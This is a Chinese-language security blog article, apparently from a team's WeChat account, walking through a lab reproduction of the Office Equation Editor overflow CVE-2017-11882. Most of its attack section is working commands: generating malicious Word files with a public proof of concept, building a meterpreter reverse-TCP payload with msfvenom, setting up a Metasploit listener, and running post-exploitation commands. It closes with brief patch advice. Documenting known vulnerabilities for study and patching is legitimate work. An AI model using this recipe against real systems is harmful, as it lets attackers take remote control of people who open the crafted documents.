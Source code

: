 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/V6k6INxMar-una5aN-I8Wg)

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXu3bXekvbOVFvAicpfFJwIOcQOuakZ6jTmyNoeraLFgI4cibKrDRiaPAljUry4dy4e2zK8lUMyKfkGg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)1、漏洞概述

据国内相关不完全统计，中国Windows市场份额达97%，并且中国10台Windows电脑中有9台电脑用的是盗版，即便激活成功大多也是盗版的授权许可，在如此大的基数下，国内办公软件行业市场现状，office必定属于前列，所以搜索相关文章，综合分析，感觉都在说，微软Office套件最有效的攻击手段，是基于CVE-2017-11882的漏洞，于是乎找到cve-2017-11882这个漏洞，做漏洞复现，随有下文。  
  
针对这个漏洞，微软在2017年11月14号，推送了常规的安全更新，其中，关于CVE-2017-11882的安全更新引起了圈里的关注，随之而来的，便是针对此漏洞的POC攻击代码被逐渐公开。这里在放一个github地址`[https://github.com/unamer/CVE-2017-11882](https://github.com/unamer/CVE-2017-11882)`。  
  
这个漏洞之所以有这么大的关注度，从漏洞利用效果来看，它可以通杀Office 2003到2016的所有版本，并且整个攻击环境的构建非常简单，姿势又非常“优雅”。例如，有些攻击效果会出现弹框，会出现CPU飙高，会发生异常等等，而这个漏洞的利用效果，绝对属于是神不知鬼不觉。  
  
此漏洞的形成原因。是由Office软件里面的 \[公式编辑器\] 造成的，由于编辑器进程没有对名称长度进行校验，导致缓冲区溢出，攻击者通过构造特殊的字符，可以实现任意代码执行。  
使用场景，如果黑客利用这个漏洞，构造带有shell后门的office文件，当普通用户打开这个office文件，则电脑可以被黑客直接控制。

### 2、影响版本：

office 2003  
office 2007  
office 2010  
office 2013  
office 2016

### 3、漏洞复现环境

parrot4.0 + Windows7 + Office 2016  
渗透机：parrot + POC代码【上述github地址】  
靶机：Win7 + Office 2016

### 4、实验流程

#### 4.1、下载office 2016

下载地址：`[http://www.downcc.com/soft/290076.html](http://www.downcc.com/soft/290076.html)`  
在靶机win7中，安装完可看到office套件。  
![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RWKo3L0ncqLjnoFxqG4GdoaXDa2Dmx69iaT6vMU6ibtMaKNSJm1p9QG6ZCejudNLQtnuSupUC2zx9QA/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

#### 4.2、从Git上下载poc代码

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

#### 4.3、使用下载的poc生成带有代码的word

##### 4.3.1、 生成调用计算器的程序

python CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o 11882.doc

##### 4.3.2、 生成调用任务管理的程序

python CVE-2017-11882.py -c "cmd.exe /c taskmgr.exe" -o 11882-2.doc  
  
通过上面生成的word文件，用office打开后，可以弹出上面我们生成的指定程序，由于Office2016存在CVE-2017-11882漏洞，当打开特殊构造的word文件时，windows会执行其他动作。既然此漏洞能够造成win系统执行其他动作，那么，是否顺便可以反弹会话，直接被渗透机控制呢？答案是肯定的。接下来我们来做进一步的验证。  
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

##### 4.3.3、构造带有shell后门的word文件，并开启监听

**生成一些shellcode**  
  
msfvenom -p windows/meterpreter/reverse\_tcp LHOST=172.16.111.136 LPORT=4444 -o ./sc.bin

  
产生漏洞  
python CVE-2017-11882.py -c sc.bin -t 0 -i 1 -o test.doc  
  
**使用parrot的msf实现监听**  
  
use exploit/multi/handler  
  
set payload windows/meterpreter/reverse\_tcp  
  
set LHOST 172.16.111.136  
  
exploit  
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  
此后便可以通过meterpreter来对会话进行管理：  
  
进入会话  
msf exploit(CVE-2017-11882) > sessions 1  
查看系统信息  
meterpreter > sysinfo  
查看当前用户  
meterpreter > getuid  
截屏  
meterpreter > screenshot  
  
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

### 5、漏洞修复

1.保存系统更新，做到重要补丁及时更新。   
2.打补丁；此漏洞对应的微软补丁地址：`[https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11882](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11882)`

  

E

N

D

  

  

**关**

**于**

**我**

**们**

Tide安全团队正式成立于2019年1月，是新潮信息旗下以互联网攻防技术研究为目标的安全团队，团队致力于分享高质量原创文章、开源安全工具、交流安全技术，研究方向覆盖网络攻防、系统安全、Web安全、移动终端、安全开发、物联网/工控安全/AI安全等多个领域。

团队作为“省级等保关键技术实验室”先后与哈工大、齐鲁银行、聊城大学、交通学院等多个高校名企建立联合技术实验室，近三年来在网络安全技术方面开展研发项目60余项，获得各类自主知识产权30余项，省市级科技项目立项20余项，研究成果应用于产品核心技术研究、国家重点科技项目攻关、专业安全服务等。对安全感兴趣的小伙伴可以加入或关注我们。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)我知道你**在看**哟

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)